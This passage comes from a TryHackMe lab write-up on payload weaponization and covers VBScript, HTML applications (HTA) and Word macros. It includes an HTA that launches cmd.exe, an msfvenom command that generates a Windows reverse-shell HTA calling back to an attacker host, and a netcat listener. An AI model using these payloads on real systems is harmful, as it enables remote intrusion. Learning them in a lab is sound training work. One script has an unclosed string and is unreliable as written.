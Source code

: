       - Save in correct directory/file
      - Save with file extension: .vbs

![VBScript](https://github.com/ryangreggw/THM-BOXES/assets/25268281/d5a6e5d4-b053-4b43-89e7-d573b6a7077e)


## **TASK4: A HTML APPLICATION (HTA)**
- HTA allows you to create downloadable files that take all the information regarding how the application is displayed/rendered. 
- HTAs are dynamic HTML pages contianing JScript and VBScript. 
- Living-of-the-land Binaries (LOLBINS) tool ``mshta`` is used to run HTA files.  
  
***#HTA SCRIPT WITH CMD.EXE PAYLOAD:***
- The following example will use ActiveXObject in a payload to execute cmd.exe (make sure you're writing this on your linux machine):
1. Start a python web server. 
  - Create a .hta file with the following script: 
```
<html>
<body>
<script>
    var c= 'cmd.exe
    new ActiveXObject('Wscript.Shell').Run(c);
</script>
</body>
</html>
``````
2. Now, go to the windows machine, and type in the server information in Internet Explorer or Google Chrome. 
      - ```http://<your ip on the linux box>:<port # from your python webserver>```
3. Click run, and your cmd.exe script should execute. 

![hta command promot executable](https://github.com/ryangreggw/THM-BOXES/assets/25268281/33251b1f-966d-4877-9e03-9daae9b698ae)

![hta webserver](https://github.com/ryangreggw/THM-BOXES/assets/25268281/042a16bd-5449-42c4-8f80-9812e8a4f60c)

***#REVERSE SHELL WITH HTA:***
1. Create the reverse shell payload with msfvenom
   - ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=<yourip> LPORT=<port#> -f hta-psh -o thm.hta```
     - Make sure that your web server is still running*
2. Set up a listener on your machine: 
   - nc -lvnp <port #>
3. Go to the windows machine and run the payload you created. 

![msfvenom hta reverseshell](https://github.com/ryangreggw/THM-BOXES/assets/25268281/b85af84e-a3e3-44cb-b146-ab3222e90edd)

![msfvenom hta payload](https://github.com/ryangreggw/THM-BOXES/assets/25268281/10b3e054-3106-4e7f-84e5-28d0ba03cd7b)


## **TASK 5: VISUAL BASIC FOR APPLICATION (VBA)**
- Allows automatic tasks (macros) for keyboard/mouse interaction between users and Microsoft Office applications.
- 
***#CREATING A MACRO IN MICROSOFT WORD:*** 
1. Click on View>Macros. 
2. Name your macro and select where you want your macro to apply "Macros in:"
3. Click create. 
4. Now, write your command: 
```
Sub thm()
    MsgBox ("Welcome")
End Sub
```